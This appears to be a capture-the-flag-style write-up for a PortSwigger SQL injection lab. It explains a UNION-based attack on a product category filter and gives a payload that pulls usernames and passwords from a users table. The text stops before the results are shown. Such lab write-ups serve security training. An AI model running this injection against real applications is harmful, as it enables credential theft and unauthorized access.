

# Lab: SQL injection UNION attack, retrieving data from other tables

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Known information

- vulnerable to SQL injection in the product category filter
- UNION based vulnerability
- database contains `users` table containing columns `username` and `password`.
- Goals:
  - Retrieve all usernames and passwords
  - Log in as `administrator`

## Query

The query might be something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

### Confirm injectable argument

The first steps are identical with the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

The number of colums in the result is 2, with both being text columns.

### Extracting usernames and passwords

We know which table (`users`) contains the credentials (columns `username` and `password`). And conveniently we have two string columns, so we can simply dump the contents.

```sql
SELECT * FROM someTable WHERE category = 'Gifts' UNION (SELECT username, password password FROM users)--
```

Resulting in these three user credentials:




Now log in as administrator and:


